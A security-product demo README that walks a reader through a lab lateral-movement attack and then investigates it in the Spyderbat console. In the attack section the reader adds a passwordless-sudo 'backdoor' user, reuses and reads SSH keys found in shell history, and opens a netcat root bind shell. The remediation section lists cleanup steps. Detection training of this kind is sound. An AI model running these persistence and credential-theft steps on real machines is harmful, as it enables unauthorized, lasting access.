

# Multi-Machine Lateral Movement

This scenario shows an attacker gaining access to a public-facing server outside of the cluster, and using it to connect to a more restricted build environment.

## Pre-requisites

This scenario requires two machines to be set up outside the Kubernetes cluster using the install script. To begin, you will need the IP address and SSH key to access the first server (or "jumpserver").

## Running the Exploit

There are two machines in this scenario: a "jumpserver" and a build server ("buildbox"). The build server is supposed to be restricted, and can only be accessed from machines within the same account. To use the build server for publishing new versions of private images, developers first connect to a public-facing jumpserver using SSH. From there, they can connect to the build server.

In this scenario, we start as the attacker, who has just acquired the SSH key for the jumpserver. Let's start by connecting to the machine.

```sh
ssh -i ~/path/to/jumpserver/key JUMPSERVER_USER@JUMPSERVER_IP
```

Let's take a look around to see what we can do:

```
[ec2-user@jumpserver ~]$ id
uid=1000(ec2-user) gid=1000(ec2-user) groups=1000(ec2-user),4(adm),10(wheel),190(systemd-journal) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[ec2-user@jumpserver ~]$ sudo -l
...
User ec2-user may run the following commands on jumpserver:
    (ALL) ALL
    (ALL) NOPASSWD: ALL
```

Looks like we have full sudo access to this machine (and we don't even need to know the password). So, let's make a new user to be able to get back into this machine, just in case the ssh key gets rotated. First, add the user:

```sh
sudo adduser backdoor
```

Which we can now see in `/etc/passwd`:

```sh
cat /etc/passwd | tail
```

To make sure we can get full access, let's add them to the sudoers file:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Next, let's change to that user to test it and prepare a login:

```sh
sudo su backdoor
```
```sh
sudo -l
```
```
User backdoor may run the following commands on jumpserver:
    (ALL) NOPASSWD: ALL
```

Now that the user is set up, add an ssh key for them:

```sh
ssh-keygen -f ~/.ssh/id
```

Add that ssh key to the authorized keys:

```sh
cat ~/.ssh/id.pub >> ~/.ssh/authorized_keys
```

And then print the key so we could copy it to use later. You don't need to save this anywhere, as we won't need it for this demo.

```sh
cat ~/.ssh/id
```

Now, type `Ctrl-d` or `exit` to go back to the original user. Let's take a look at the history to see what the original user did:

```sh
history
```
```
    1  ls -la
    2  hostname
    3  systemctl status sshd.service 
    4  ls .ssh/
    5  ssh-keygen
    6  cat .ssh/buildbox_id.pub 
    7  ssh -i ~/.ssh/buildbox_id root@203.0.113.45
    8  id
    9  sudo -l
   10  sudo adduser backdoor
   11  cat /etc/passwd | tail
   12  echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
   13  sudo su backdoor
   14  history
```

On line 7, the developers used the SSH key `buildbox_id` to access the build server. We can also see that the SSH key is still present:

```sh
ls ~/.ssh
```
```
authorized_keys  buildbox_id
```

So now, we can connect to the build server:

```sh
# note: use the command that appeared in your history for a valid user/IP
ssh -i ~/.ssh/buildbox_id JUMPSERVER_USER@JUMPSERVER_IP
```

Looking around here shows that the machine is set up the same way.

Let's again create a new user to be able to return later:

```sh
sudo adduser backdoor
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

In this case, let's just delete the user's password to make it easy to log in as them:

```sh
sudo passwd -d backdoor
```

If we look at the history on this machine, we can see that it has been used to pull down remote git repositories, build them, and push the finished containers:

```sh
history
```
```
    1  git clone git@github.com:example/build.git 
    2  cd build
    3  make push-container
    4  cd ..
    5  rm -rf build
    6  git clone git@github.com:example/payroll-app.git 
    7  cd payroll-app
    8  make build
    9  make push-container
   10  cd payroll-app
   11  git pull
   12  make push-container
   13  sudo adduser backdoor
   14  echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
   15  sudo passwd -d backdoor
   16  history
```

Given the build server is fetching private code using SSH, we could use the SSH keys here to log in to GitHub and view the company's repositories:

```sh
ls ~/.ssh/
```
```
authorized_keys  github-login
```
```sh
cat ~/.ssh/github-login
```

Next, let's take a look at the `payroll-app` directory to get some more details about how the new version deployment process is handled:

```sh
ls ~/payroll-app/
```
```sh
cat payroll-app/Makefile
```

Given the access on this machine, we could edit the `payroll-app` package to add a backdoor that we could access, and then push a new version of the package. Alternatively, we can set up a secondary backdoor method using netcat. However, we will need to install it:

If your machine is an Ubuntu-based OS:

```sh
sudo apt install ncat
```
For AWS (or other Redhat based OSs):

```sh
sudo yum install nmap-ncat
```

And validate that we can use `nc`:

```sh
which nc
```

Then, we can start a listening port set up to connect us to a root shell, and disown the process so it stays around when we leave.

```sh
sudo nc -l -p 2222 -e "/bin/bash" &
disown
```

You can skip this last step if it does not work, as the demo machines may not be reachable on port 2222. If the network is open, however, we could then reconnect to the machine later from any machine:

```sh
# on the attacker's machine
nc BUILDBOX_IP 2222
```

No prompt will appear, but we can still run commands:

```
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

## Discussion

At this point, we have completed the lateral movement exploit. If the attacker were to continue, there are a few different options.

First, they could create a more durable persistence method, such as the ones detailed in [this blog by Linode](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/). Examples include editing shell configurations files, creating cron jobs, or making new linux services.

After ensuring they can return to the build machine, the attacker could edit the payroll app to install a backdoor in the deployed image. This backdoor wouldn't be run on the build machine, but would be installed the next time the payroll app was deployed, allowing the attacker to pivot to the new machine or cluster it was deployed to.

To see a full supply-chain exploitation and how Spyderbat detects it, visit the [supply chain attack demo](../supply_chain/).

## Investigation


In the Spyderbat Console, navigate to the Dashboard page to begin our investigation. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "interactive_ssh_from_[IP_ADDRESS]", or "suspicious_crud_command_cat". Select these Spydertraces, and select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:


Your view should look similar to the trace above. If it does not, make sure you selected a Spydertrace object from both machines on the dashboard page. If you are still missing details, click the "Add Next X Objects" button on some of the traces listed in the records table next to the graph:


To clean up the graph, we can select some of the larger trees and trim them using the "Remove X Descendants" in the right-click menu. For example, in the graph above I removed the children under `adduser` and `yum`.

From this graph, we can easily see that the attacker originally connected to the jumpserver from an external IP. From there, they added a new user, and connected to the build box with SSH. After investigating the build box, they started a new netcat backdoor. Even though it was disowned, Spyderbat still tracks where the process came from, and the connections and future commands run with it.



## Next Steps

Now that we know the attacker's method of access and persistence method, we can take steps to remediate:

- kill the remaining Netcat process
- rotate both machines' SSH keys
- remove the backdoor user from both systems
- remove netcat from the build system

> **Note:**
>
> The uninstall script will automatically perform some of these clean up actions to help reset the demo machines.

## Further Reading

- [Supply Chain Attack Scenario](../supply_chain/)
- [End-to-End Demo Scenario](../end_to_end/)
